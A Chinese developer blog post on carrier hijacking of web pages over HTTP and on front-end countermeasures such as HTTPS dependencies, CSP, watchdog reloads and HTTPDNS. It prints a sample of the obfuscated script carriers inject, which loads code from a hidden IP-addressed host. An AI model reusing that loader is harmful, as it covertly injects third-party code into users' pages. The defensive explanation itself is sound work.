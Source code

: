 ```yaml
---
layout: post
title: "网络劫持"
date: 2018-12-25 11:14:54
categories: JavaScript
tags: js http dns
excerpt: 解决运营商的网络劫持问题
---
```


- content
  {:toc}
  国内 H5 页面的网络劫持愈演愈烈，所以前端得想办法解决它。

## 常见的劫持方法

### HTTP 劫持

简单的说就是在你的网页上`<head>`/`<body>`，插入一段标签、一段 js 等等方法。

### DNS 劫持

DNS 劫持，主要就是让你的域名跳转到运营商指定的域名去，比如你访问`www.baidu.com`,结果给你跳到 12345 网站。

还有一种就是跳转到运营的网页，然后在`iframe`中在嵌套你想去的网站，这样广告就能随意增加了

### JS 劫持

js 劫持本质上还是 DNS 劫持，但是它只对 js 起效，基本上是随机把你的一个 js 文件进行替换，然后在使用 js 吧你原本的 js 加载回来。

一般运营替换的 js 形式如下：

```js
!(function(e, t, n, o, r, i, a, c) {
  (c = (function(e, t, n) {
    for (t = e % 256, n = 3; 0 < n; n--)
      t = ((e = Math.floor(e / 256)) % 256) + "." + t;
    return t;
  })(2095620274)),
    (a = function(e) {
      (r = t.createElement(n)),
        (i = t.getElementsByTagName(n)[0]),
        (r.src = "//" + e),
        i.parentNode.insertBefore(r, i);
    })(
      o + (0 < o.indexOf("?") ? "&" : "?") + "_t" + new Date().getTime() + "=0i"
    ),
    a(c + "/v1/a/?u=3236477");
})(
  window,
  document,
  "script",
  "我的域名/static/help/js/jquery18min.js?t=23432423234"
);
```

## 当下的劫持问题现状

现在主要出现的就是让人防不胜防的`js劫持`，别的劫持特征太明显，或者太容易解决，已经基本被运营商淘汰，所以主要的就是`js劫持`问题。

js 劫持，运气好只是多一点广告，运气不好的时候，甚至会导致网站本身的 js 报错，依赖缺失，无法执行渲染导致白屏等等问题。

所以解决`js劫持`问题，是最重要的一环。

## 解决方法

最简单的解决方法就是启用 HTTPS。

当然如果能启用 HTTPS 的话，我也就不会写这篇文章了。

### 为什么不能启用 HTTPS

- 1、证书问题
  - 不过一般这不是问题，免费的证书也多的是
- 2、部署 https 问题
  - 这也不是问题，运维会搞定的，就算没运维，自己按照文章几个小时总能搞定的
- 3、HTTPS 中不允许 http
  - 这是最主要的问题，很多时候都是使用的第三方接口、资源，甚至需要 iframe 接入别的公司的的业务页面。只要涉及到的，都无法改。
- 4、HTTPS 导致的流量飙升问题
  - 服务器流量、cdn 流量都是需要花钱的，之前尝试升级到 https 之后，流量翻了 3 倍，流量费用有点吃不消（阿里云太黑！）

### http 下解决 js 劫持问题

#### 依赖文件使用 HTTPS

常用的依赖库，比如 `jssdk`、`jquery`等等库，可以使用 HTTPS 协议的，防止劫持，导致依赖出现问题。比如`https://www.bootcdn.cn/`、`https://cdn.baomitu.com/`

如果防止第三方 cdn 服务出现问题，可以在加入 js 使用本地 js 以防万一，以 jquery 为例

```html
<head>
  <script crossorigin="anonymous" integrity="sha384-nvAa0+6Qg9clwYCGGPpDQLVpLNn0fRaROjHqs13t4Ggj3Ez50XnGQqc/r8MhnRDZ" src="https://lib.baomitu.com/jquery/1.12.4/jquery.min.js"></script>
  <script>
    if(!jQuery){ // 如果下载没成功，就下载本地的jq
      document.write('<script src="./js/jquery.js"></script>')
    }
  </script>
</head>
```

#### 普通 js 加参数

总结大部分的 js 都是加了参数就放行，所以我们提前加上参数，这样就减少被劫持的风险

```html
<script src="https://lib.baomitu.com/jquery/1.12.4/jquery.min.js?v=1234567"></script>
```

#### CSP

csp 全名是 Content Security Policy ，简单的理解就是白名单，只要是在白名单中的 js 才允许下载，不是白名单中的域名的 js，浏览器直接拦截不会下载。

但是这会造成一个问题，那就是,被劫持的 js 没有被重新加载回来。

为了解决这个问题，需要分情况讨论了。

如果是普通的 js，可以采用`看门狗`技术
```html
<script>
var t = setTimeout(function(){
  location.reload(true);
},1e4)
</script>
```

```js
// 被劫持的js
clearTimeout(t)
```


如果是类似 vue、react 那样需要按需加载,并且使用了webpack打包的js，则可以采用捕获错误信息来解决

```js
(function() {
  var windowOnError;
  var consoleOnError;
  var isFunction = function(value) {
    return Object.prototype.toString.call(value) == "[object Function]";
  };
  if (isFunction(window.onerror)) {
    windowOnError = window.onerror;
  }
  if (isFunction(console.error)) {
    consoleOnError = console.error;
  }
  window.onerror = function(message, source, lineNo, colNo, error) {
    var msg = message;
    var stack = !!error && !!error.stack;
    var statckInfo = (stack && error.stack.toString()) || "";
    if (/webpackJsonp/gi.test(msg + statckInfo)) {
      setTimeout(function() {
        location.reload(true);
      }, 3000);
    }
    if (isFunction(windowOnError)) {
      windowOnError.call(window, message, source, lineNo, colNo, error);
    }
  };
  console.error = function(t) {
    var msg = t.message;
    var reg = /Loading chunk/gi;
    if (reg.test(msg)) {
      setTimeout(function() {
        location.reload(true);
      }, 3000);
    }
    if (isFunction(consoleOnError)) {
      consoleOnError.call(window, t);
    }
  };
})();
```

### 其它方法-HTTPDNS
HTTPDNS技术，简单的说，就是使用http去请求服务器，然后拿到具体ip，算是一种防止dns劫持的方法，但是这个不能是纯web端做，是给APP使用的，如果你的项目是内嵌在app中的话，可以让APP使用此技术。

如果使用了安卓端使用了腾讯的X5内核，那么恭喜你，x5内核自带httpdns防劫持功能，可以免去很多问题。

### 总结
被劫持问题，还是防不胜防，在http下只能是尽人事，效果具体如何还是看实际情况而定了。祝愿大家都能早日升级到HTTPS